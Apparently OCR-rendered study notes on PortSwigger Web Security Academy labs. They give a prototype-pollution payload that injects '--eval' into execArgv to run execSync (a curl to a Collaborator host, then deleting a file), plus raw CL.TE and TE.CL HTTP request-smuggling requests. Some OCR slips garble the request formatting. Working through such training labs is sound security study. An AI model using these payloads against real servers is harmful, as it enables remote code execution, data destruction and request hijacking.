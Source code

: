 1) Prototype Pollution:

Remote code execution via server-side prototype pollutionhttps://portswigger.net/web-security/prototype-pollution 

Technique : 
                Try polluting the prototype with a malicious `execArgv` property that adds the `--eval` argument to the spawned child process. Use this to call the `execSync()` sink, passing in a command that triggers an interaction with the public Burp Collaborator server.
Example:
	"proto": { "execArgv": "--eval=require('child_process').execSync('curl https://YOUR-COLLABORATOR-ID.oastify.com')"  }
	
Exploit:
             "proto": { "execArgv": "--eval=require('child_process').execSync('rm /home/carlos/morale.txt')"  }
             
  2) Http Request Smuggling:
	  Lab 1 : 
		  HTTP request smugglinghttps://portswigger.net/web-security/request-smuggling, confirming a CL.TE vulnerability via differential responses.
	  
	   Technique : 
		 smuggle a request to the back-end server, so that a subsequent request for `/` (the web root) triggers a 404 Not Found response.
		 
		Example: 
		POST / HTTP/1.1 Host: YOUR-LAB-ID.web-security-academy.net 
		Content-Type: application/x-www-form-urlencoded 
		Content-Length: 35 
		Transfer-Encoding: 
		chunked 0 


		GET /404 HTTP/1.1
		 X-Ignore: X

	
	
 Lab 2 : 
 HTTP request smugglinghttps://portswigger.net/web-security/request-smuggling, confirming a TE.CL vulnerability via differential responses.
 
Technique : 
	 smuggle a request to the back-end server, so that a subsequent request for `/` (the web root) triggers a 404 Not Found response.
	 
POST / HTTP/1.1
Host: 0a7d00920470a543814c25b3004a00d0.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

5e
POST /404 HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0
